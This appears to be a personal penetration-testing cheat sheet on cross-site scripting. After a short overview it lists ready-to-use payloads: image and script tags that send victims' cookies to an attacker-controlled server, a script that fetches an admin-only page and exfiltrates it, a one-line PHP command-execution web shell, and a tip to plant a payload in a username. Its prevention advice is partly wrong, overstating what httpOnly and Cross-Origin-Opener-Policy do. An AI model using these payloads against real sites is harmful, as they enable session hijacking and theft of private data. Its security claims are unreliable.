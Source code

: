 # XSS - Cross Site Scripting

## Overview

Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page

## Description

Cross-Site Scripting (XSS) attacks occur when:

Data enters a Web application through an untrusted source, most frequently a web request.
The data is included in dynamic content that is sent to a web user without being validated for malicious content.

## Prevention

If the http header "httpOnly" is set to True, this prevents xss

### Cross-Origin-Opener-Policy:

If the http Header Cross-Origin-Opener-Policy is : same origin we cannot use xss payloads with fetch.
But we can try this payload

```javascript
<script>img=new Image();img.src="http://[myip]:[myport]/?img="+btoa(document.cookie);</script>
```

When we receive the cookie decode it

```shell
echo -n [cookie] | base64 -d
```

## Common Payloads

Steal cookies

	<img src=x onerror=this.src="http://<YOUR_SERVER_IP>/?c="+document.cookie>
	<img src=x onerror=fetch("http://<YOUR_SERVER_IP>/"+document.cookie)>
	"><img src=x onerror=fetch("http://<YOUR_SERVER_IP>/"+document.cookie)>
	'><img src=x onerror=fetch("http://<YOUR_SERVER_IP>/"+document.cookie)>
	<script>document.location='http://<YOUR_SERVER_IP>/?cookie='+document.cookie;</script>

If there is no cookie, e can also try to access pages the only the admin can have access, by doing:

	<script>
	fetch("http://page_that_only_admin_has_access_to")
	.then(response => response.text()) // Convert the response to text
	.then(data => {
		fetch("http://our_server_ip/?data=" + encodeURIComponent(data)); // Exfiltrate data
	})
	.catch(error => console.error("Error fetching the messages:", error));
	</script>

This fetches the page that onyl the admin has access to, converts it to text, uri encodes it, and then sends the data back to us.

## php payloads

	if isset($_REQUEST['cmd']){
		system($_REQUEST['cmd']);
	}
	then we pass the cmd arg in the request:
	<url>?cmd=whoami

## Tips

If the username might be seen by an admin account, try to register a username as a xss payload


## Relevant Information

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection

https://owasp.org/www-community/attacks/xss/

https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting